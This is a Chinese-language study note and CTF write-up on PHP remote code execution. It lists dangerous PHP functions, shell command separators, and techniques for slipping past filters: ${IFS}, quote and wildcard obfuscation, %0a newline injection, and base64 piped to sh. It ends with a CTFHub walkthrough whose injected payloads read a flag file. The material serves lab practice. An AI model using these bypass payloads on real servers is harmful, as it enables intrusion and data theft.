



> Environment: PHP 7.3.4 + Apache + MySQL 5.7.26

> Lab: Pikachu DVWA CTFHub

# 1.0 RCE

## 1.1 基础

- **定义:** **RCE(Remote Code Execution 远程代码执行)** 是指攻击者能够在目标服务器上**远程执行任意代码或系统命令**的漏洞. 它是 Web 安全中危害等级最高的漏洞类型之一, 一旦利用成功, 攻击者可直接获取服务器权限(GetShell), 进而窃取数据, 植入后门, 横向渗透甚至控制整个内网
- **核心原理:** 用户可控的数据, 未经充分过滤/转义, 被拼接进了代码或命令的执行上下文中

## 1.2 相关函数

- 命令command注入

| 函数                    | 作用                                                  |
| ----------------------- | ----------------------------------------------------- |
| system()                | 执行外部程序并显示                                    |
| exec() <br>shell_exec() | 通过shell环境执行命令, 并将完整的输出以字符串方式返回 |
| pcntl_exec()            | 在当前进程空间执行指定程序                            |
| passthru()              | 执行外部程序并显示原始输出                            |
| popen()                 | 打开进程文件指针                                      |
| proc_open()             | 执行一个命令, 并打开用来input/output的文件指针        |

- 代码code注入

| 函数                                      | 作用                                                       |
| ----------------------------------------- | ---------------------------------------------------------- |
| eval()                                    | 把字符串code作为php代码执行                                |
| assert                                    | 检查一个断言是否为false                                    |
| preg replace()                            | 执行一个正则表达式的搜索和替换                             |
| create function()                         | 创建一个匿名函数并且返回函数名创                           |
| call userfunc()<br>caIl_user func array() | 把第一个参数作为回调函数调用                               |
| usort()<br>uasort()                       | 使用用户自定义的比较函数对数组中的值进行排序并保持索引关联 |

- Windows命令拼接符号

| 符号 | 作用                           |
| ---- | ------------------------------ |
| &&   | 左边执行成功, 才执行右边       |
| &    | 拼接                           |
| \|   | 管道符(前一条输出当后一条输入) |
| \|\| | 左边执行失败, 才执行右边       |
| %0a  | URL 编码的换行, 也能分隔命令   |

- Linux命令拼接符号

| 符号 | 作用                         |
| ---- | ---------------------------- |
| ;    | 连接符                       |
| &&   | 左边执行成功, 才执行右边     |
| \|   | 管道(前一条输出当后一条输入) |
| \|\| | 左边执行失败, 才执行右边     |
| &    | 任务后台执行, 类似nohup      |
| %0a  | URL 编码的换行, 也能分隔命令 |

---

## 1.3 过滤绕过

- `空格`

  ```bash
  cat${IFS}/flag  # ${IFS} 是内部字段分隔符(默认含空格/Tab/换行)
  {cat,/flag}     # 花括号扩展，逗号代替空格
  ```

- `cat`

  ```bash
  ca''t /flag             # 空字符串拼接, ca''t 还是 cat
  ca\t /flag              # 反斜杠转义
  c?a? /f???              # ? 匹配单字符, * 匹配任意 → c?t /f*
  more/less/head/tail/nl
  ```

- `flag`

  ```bash
  cat /f*                 # * 通配
  cat /fla?               # ? 通配
  ```

- ; | &

  ```bash
  127.0.0.1%0acat /flag   # URL [换行]编码换行符 %0a 代替 ;
  127.0.0.1%0dcat /flag   # %0d [回车]
  ```

-  Base64编码

  ```bash
  echo -n "cat flag" | base64  # -n必须加否则会自带 \n换行, 实际解码内容溢出
  # 此时输出一个编码  
  echo 编码 | base64 -d | sh    # 解码并执行 
  ```
---

## 2.0 实战

> CTFHub-RCE(综合过滤)

- 源码分析

```bash
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/(\||&|;| |\/|cat|flag|ctfhub)/", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>
```

- 后端做校验对"\\|&;/ cat flag ctfhub"等关键字都做了过滤
- 这里使用等价替换的方式进行绕过

**01 探测当前目录结构**

```bash
127.0.0.1%0als
```



> 回显目标目录flag_is_here

**02 查看目标目录结构**

```bash
127.0.0.1%0als${IFS}f*_is_here
```



> 该文件存放通关代码, 想办法读取

**03 获取文件内容**

```bash
127.0.0.1%0acd${IFS}f*_is_here%0aless${IFS}f*_10040951432284.php
```



> 打开网页源代码即可获取到通关代码, 输入即可通关本关
